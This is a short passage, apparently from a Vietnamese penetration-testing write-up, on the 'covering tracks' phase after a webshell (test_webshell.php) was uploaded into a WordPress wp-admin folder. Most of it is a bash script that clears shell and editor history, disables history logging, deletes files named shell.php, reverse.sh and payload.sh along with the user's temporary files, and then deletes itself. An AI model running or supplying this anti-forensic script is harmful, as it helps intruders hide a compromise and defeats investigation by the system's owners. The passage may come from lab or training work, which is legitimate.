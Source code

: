 ### Xoa Dau Vet

Xoa file da upload len 
```bash
┌──(khanh㉿may1)-[~]
└─$ find /var/www -type f -name "test_webshell.php"
/var/www/html/wp-admin/test_webshell.php
```
![alt text](image-87.png)
Sử dụng script tự xây dựng để xóa dấu vết trên người dùng 

```bash
#!/bin/bash

echo "[*] Bắt đầu xóa dấu vết cho người dùng: $USER"

# 1. Xóa lịch sử shell
echo "[*] Xóa .bash_history và lịch sử shell..."
cat /dev/null > ~/.bash_history 2>/dev/null
history -c
unset HISTFILE

# 2. Xóa các dấu vết trình soạn thảo
echo "[*] Xóa lịch sử của nano và vim..."
rm -f ~/.nano_history 2>/dev/null
rm -f ~/.viminfo 2>/dev/null

# 3. Xóa các file khả nghi trong thư mục người dùng
echo "[*] Xóa các file .wget-hsts, shell, script tùy chọn..."
rm -f ~/.wget-hsts 2>/dev/null
rm -f ~/shell.php ~/reverse.sh ~/payload.sh 2>/dev/null

# 4. Xóa file trong /tmp và /var/tmp do người dùng tạo
echo "[*] Xóa file tạm người dùng tạo trong /tmp và /var/tmp..."
find /tmp -user "$USER" -type f -delete 2>/dev/null
find /var/tmp -user "$USER" -type f -delete 2>/dev/null

# 5. Xóa file log tạm (nếu tự tạo)
echo "[*] Xóa các file log tạm nếu có..."
rm -f ~/output.log ~/log.txt 2>/dev/null

# 6. Thêm biện pháp ẩn script
echo "[*] Xóa chính script này nếu cần..."
SCRIPT_PATH=$(realpath "$0")
rm -f "$SCRIPT_PATH"

echo "[+] Đã xóa dấu vết cơ bản cho user: $USER"
```
